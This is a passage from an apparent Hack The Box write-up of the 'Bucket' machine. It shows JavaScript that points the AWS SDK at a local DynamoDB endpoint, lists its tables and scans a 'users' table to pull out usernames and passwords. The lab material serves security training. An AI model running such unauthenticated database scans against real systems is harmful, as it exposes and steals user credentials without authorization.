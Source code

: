 I spent a *long* time trying to debug the `XMLParserError`, which popped up in a large number of contexts, especially later on when interacting with S3. It was a badly documented error, and the most definitive answer I found was [this post](https://forums.aws.amazon.com/thread.jspa?messageID=488946) suggesting it is a bug in the configuration itself. Eventually I moved on and switched up my approach.

#### Exfiltrating Data

I suspected that there was some sort of local AWS setup powering the website, perhaps with a minimal number of services. So I did some googling around local deployments and tried to avoid official AWS docs as they interact with services that might not exist locally.

I found this [Stack Overflow Post](https://stackoverflow.com/questions/57988963/how-to-access-dynamodb-local-using-dynamodb-javascript-shell) which suggests using an 'endpoint URL' to access local resources.

I initially tried `http://bucket.htb` as the endpoint URL, as I figured it was the most generic domain. However, this gave me the following error:

```
{"message":"Network Failure","code":"NetworkingError","time":"2020-12-15T16:25:33.070Z","region":"us-west-2","hostname":"bucket.htb","retryable":true}
```

So I switched to this code, using `http://s3.bucket.htb` instead:

```javascript
var dynamodb = new AWS.DynamoDB({endpoint: '[http://s3.bucket.htb'](http://s3.bucket.htb') });  
var param = {};  
dynamodb.listTables(param, function (err, data) {  
if (err) console.log(err, err.stack); // an error occurred  
else console.log(data); // successful response  
});
```

This lets us enumerate the tables in the database!

![Console outputting table names](/assets/images/blogs/Pasted image 20210428134850.png)

Now we can scan the table. I used this code:

```javascript
var dynamodb = new AWS.DynamoDB({endpoint: 'http://s3.bucket.htb' });
var param = {
    TableName: 'users',
    Limit: 10
};
dynamodb.scan(param, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else console.log(data); // successful response
});
```

Which outputted some usernames and passwords! I took note of these in [Loot](#loot)

![Console outputting usernames and passwords JSON](/assets/images/blogs/Pasted image 20210428135105.png)
